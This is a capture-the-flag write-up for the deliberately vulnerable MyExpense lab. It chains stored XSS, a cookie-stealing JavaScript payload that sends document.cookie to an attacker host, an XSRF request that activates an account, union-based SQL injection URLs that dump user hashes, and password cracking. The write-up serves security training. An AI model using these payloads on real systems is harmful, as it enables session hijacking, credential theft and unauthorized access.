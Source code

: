 ```yaml
---
{"dg-publish":true,"permalink":"/write-ups/vuln-hub/my-expense/","tags":["CTF","write-up","XSS","XSRF","SQLi","password-cracking","linux"]}
---
```


---
> [!INFO] Description
> MyExpense is a deliberately vulnerable web application that allows you to train in detecting and exploiting different web vulnerabilities. Unlike a more traditional "challenge" application (which allows you to train on a single specific vulnerability), MyExpense contains a set of vulnerabilities you need to exploit to achieve the whole scenario.

> [!INFO]- Scenario
> You are "Samuel Lamotte" and you have just been fired by your company "Furtura Business Informatique". Unfortunately because of your hasty departure, you did not have time to validate your expense report for your last business trip, which still amounts to 750 € corresponding to a return flight to your last customer.
Fearing that your former employer may not want to reimburse you for this expense report, you decide to hack into the internal application called **"MyExpense "** to manage employee expense reports.
So you are in your car, in the company carpark and connected to the internal Wi-Fi (the key has still not been changed after your departure). The application is protected by username/password authentication and you hope that the administrator has not yet modified or deleted your access.
Your credentials were: **samuel/fzghn4lw**
Once the challenge is done, the flag will be displayed on the application while being connected with your (samuel) account.

> [!FAQ]- Miscellaneous
> If you need to restore the database : go to http://IP/config/setup.php
> This works better with VirtualBox rather than VMware

---
# Active reconnaisance
## Enum ports and services
General scan
PORT      STATE SERVICE REASON
```
   7   │ 80/tcp    open  http    syn-ack ttl 64
   8   │ 38575/tcp open  unknown syn-ack ttl 64
   9   │ 53717/tcp open  unknown syn-ack ttl 64
  10   │ 54457/tcp open  unknown syn-ack ttl 64
  11   │ 59781/tcp open  unknown syn-ack ttl 64
```

---
# Vuln analisis
## Port 80
### Focused scan
```
PORT      STATE SERVICE VERSION
   6   │ 80/tcp    open  http    Apache httpd 2.4.25 ((Debian))
   7   │ |_http-server-header: Apache/2.4.25 (Debian)
   8   │ |_http-title: Futura Business Informatique GROUPE - Conseil en ing\xC3\xA9nierie
   9   │ | http-robots.txt: 1 disallowed entry
  10   │ |_/admin/admin.php
  11   │ | http-cookie-flags:
  12   │ |   /:
  13   │ |     PHPSESSID:
  14   │ |_      httponly flag not set
  ```
### Checking `robots.txt`
```
User-agent: *
Disallow: /admin/admin.php
```

Fuzzing the page we just found `/admin` like above.


---
# Exploitation
admin/admin.php
![Pasted image 20240703173824.png](/img/user/attachments/Pasted%20image%2020240703173824.png)
We found an admin panel.
We have more info about us.
`slamotte	Samuel	Lamotte	slamotte@futuraBI.fr	Collaborator	2019-12-03 17:08:09`
We don't have permissions to inactive our user
![Pasted image 20240703174158.png](/img/user/attachments/Pasted%20image%2020240703174158.png)

Trying to login using `slamotte` and `fzghn4lw`.
![Pasted image 20240703175002.png](/img/user/attachments/Pasted%20image%2020240703175002.png)

Create a new account.
And the button is disable, but we can inspect the html code.
![Pasted image 20240703175519.png](/img/user/attachments/Pasted%20image%2020240703175519.png)
And delete the disable part.
![Pasted image 20240703175631.png](/img/user/attachments/Pasted%20image%2020240703175631.png)
Now the button is enable and we can create the new account.
![Pasted image 20240703175654.png](/img/user/attachments/Pasted%20image%2020240703175654.png)
We are in the system with an inactive account.
![Pasted image 20240703175913.png](/img/user/attachments/Pasted%20image%2020240703175913.png)

Trying XSS creating a new test user with the fields. Don't forget able the button.
![Pasted image 20240703180410.png](/img/user/attachments/Pasted%20image%2020240703180410.png)
Check the admin panel and we have a XSS.
![Pasted image 20240703180550.png](/img/user/attachments/Pasted%20image%2020240703180550.png)
## [[XSS\|XSS]]
To exploit this XSS we need the interaction of a some user, to check if some user is checking the admin panel.
Create a new user with this code on the two last fields.
```js
<script src="http://192.168.122.192/test.js"></script>
```
This code is trying to get the file `test.js` from our server, if someone check the admin panel, the code is executed and we can watch the request on our server.
Mount a server on the attacker machine.
```python
python -m http.server 80
```

### Get the cookie
now in the js file put
```js
var request = new XMLHttpRequest();
request.open('GET', 'http://attackerIP/?cookie=' + document.cookie);
request.send();
```
`PHPSESSID=0iap4q3kqsctljgp13vrcbi1f2`
`0gp9edhmbd1lnnjejhitk4mk65`
`h4a1tpdbhnfjss32mhup0v6d37`
`knjvvrlahr23emlepkqn800ac2`
We got some cookies, one of them is the admin account, but if use that cookie, we can't login, because the system admit just 1 login.

## XSRF
Activate account
Trying another way, if we try to activate the account we have.
![Pasted image 20240704171243.png](/img/user/attachments/Pasted%20image%2020240704171243.png)

Now we know that the admin is constantly visiting the admin panel, so we can set the XSS to the user make a request to the url above.
```js
var request = new XMLHttpRequest();
request.open('GET', 'http://192.168.122.204/admin/admin.php?id=11&status=active');
request.send();
```
Now we start the python server again ans wait. After a while we can see that the admin make the request and our account should be activate.
![Pasted image 20240704171856.png](/img/user/attachments/Pasted%20image%2020240704171856.png)

After login in, in the expense reports, we see the report and now submit it.
![Pasted image 20240704172227.png](/img/user/attachments/Pasted%20image%2020240704172227.png)
Some has to approve our report, and we see in the profile settings that Manen RIviere is our Manager.
![Pasted image 20240704172450.png](/img/user/attachments/Pasted%20image%2020240704172450.png)
We supposs to Manon has an panel to approve our report, so we'll try to get the Manon cookie sending an js in the message field. Again listen on python server.
![Screenshot_20240704_181923.png](/img/user/attachments/Screenshot_20240704_181923.png)
We have a few cookies, one of them is the Manager cookie.

![Screenshot_20240704_182401.png](/img/user/attachments/Screenshot_20240704_182401.png)
Now validate the report. On the green button.

We need that the financial person approve the payment
in the rennes page we will try sqli.

## SQLi
We break the query adding this.
![](/img/user/attachments/Screenshot_20240704_184024.png)
Now get the information from db
### DB names
information_schema,myexpense,mysql,performance_schema
### myexpense DB
expense,message,site,user
#### User Table
`http://192.168.122.204/site.php?id=2%20union%20select%201,group_concat(column_name)%20FROM%20information_schema.columns%20WHERE%20table_name%20=%20%27user%27--%20-`

user_id,**username**,**password**,role,lastname,firstname,site_id.....e,max_statement_time

### Username and password
**afoulon:124922b5d61dd31177ec83719ef8110a**
**pbaudouin:64202ddd5fdea4cc5c2f856efef36e1a**
rlefrancois:ef0dafa5f531b54bf1f09592df1cd110
mriviere:d0eeb03c6cc5f98a3ca293c1cbf073fc
mnguyen:f7111a83d50584e3f91d85c3db710708
pgervais:2ba907839d9b2d94be46aa27cec150e5
placombe:04d1634c2bfffa62386da699bb79f191
triou:6c26031f0e0859a5716a27d2902585c7
broy:b2d2e1b2e6f4e3d5fe0ae80898f5db27
brenaud:2204079caddd265cedb20d661e35ddc9
slamotte:21989af1d818ad73741dfdbef642b28f
nthomas:a085d095e552db5d0ea9c455b4e99a30
vhoffmann:ba79ca77fe7b216c3e32b37824a20ef3
rmasson:ebfc0985501fee33b9ff2f2734011882
test:912b7bc95fb9e6885a4685746433f39a
test2:088e03d5b2537942a15e4842d27eb49d

Checking the admin panel again to see all accounts, we are interested on the `Finalcial approvers` accounts and we will try to crack the passwords of them.

`afoulon	Aristide	Foulon	afoulon@futuraBI.fr	Financial approver	2019-12-03 17:08:09`
`pbaudouin	Paul	Baudouin	pbaudouin@futuraBI.fr	Financial approver	2019-12-03 17:08:09`

## Cracking hashes
Checking hashes.com

afoulon:wq6hblv3
pbaudouin:HackMe

Login in like `afoulon` and he don't have our report. But `pbaudouin` has it.
![](/img/user/attachments/Screenshot_20240704_205514.png)

Login as Samuel and get the flag.
> [!check]- User flag
> ![](/img/user/attachments/Screenshot_20240704_205739.png)

---
